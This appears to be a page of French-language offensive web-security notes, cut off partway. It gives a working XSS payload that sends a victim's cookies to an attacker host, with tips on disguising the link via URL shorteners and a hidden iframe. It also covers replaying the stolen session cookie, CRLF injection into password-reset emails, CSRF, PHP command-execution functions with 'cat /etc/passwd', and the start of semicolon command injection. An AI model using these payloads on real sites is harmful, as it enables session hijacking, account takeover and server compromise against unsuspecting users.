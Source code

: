     http://victime.com/vulnerable.php?variable=%3Cscript%3Ewindow.location.replace(%22http://attaquant.com/get.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
Pour être plus discret, utiliser tinyurl (bit.ly) ou encoder l'URL pour la rendre la moins lisible possible (ce qui n'est pas forcément moins suspect)

Une deuxième solution pour une rediretion discrète c'est d'utiliser un iframe sur la page `get.php`:

    <IFRAME SRC="http://diversion.com/redirect.html" width="0" height="0"></IFRAME>

Si le cookie est crypté, il reste utilisable. Si le cookie contient:

    sessid=xxxxxxxxxx;login=yyyyyyyyyy

Il suffit de taper dans la barre d'adresse du navigateur:

    javascript:alert(document.cookie="sessid=xxxxxxxxxx;login=yyyyyyyyyy")
Et de retourner sur la page cible.

## Exploiter la faille CSRF
La faille CSFR (Cross Site Request Forgery) consiste à faire exécuter une action par un autre utilisateur, typiquement un script admin disponible à une certaine URL que seul l'admin peut exécuter. Il faudra donc trouver le moyen de l'amener dessus. il faut donc connaitre l'URL provoquant l'action désirée et la faire exécuter par l'admin.  

## Exploiter la faille CRLF
La faille CRLT (Carry Return Line Feed) consiste à insérer un CRLF pour entrer une deuxième donnée. Typiquement la fonction `mail()` utilisé pour réinitilisé les mots de passe après oubli. Il suffirait de rentrer `victime@adresse.com%0Aattaquanf@adresse.com` pour être en copie du mot de passe temporaire.

## Les fonctions vulnérables

### Injection de commande:
Fonction | Description 
:- |:-
exec | Exécute un programme externe
passthru | Exécute un programme externe et affiche le résultat brut
system | Exécute un programme externe et affiche le résultat
shell_exec | Exécute une commande via le Shell et retourne le résultat sous forme de chaîne (équivalent : ``)
popen | Crée un processus de pointeur de fichier
proc_open | Exécute une commande et ouvre les pointeurs de fichiers pour les entrées / sorties
pcntl_exec | Exécute le programme indiqué dans l'espace courant de processus

Si une de ces fonctions est active il est possible de lui passer très facilement une commande, au hasard `cat /etc/passwd`. Il est néanmoins peu probable de trouver une exécution de commandes directe. Il est plus probable d'avoir une entrée utilisateur pour saisir un argument qui sera passé en commande.
Un exemple simple le code PHP exécute la commande `ping` et il est demandé à l'utulisateur de saisir l'adresse.
Il est alors facile d'exploiter la fonction avec le `;`. par exemple :

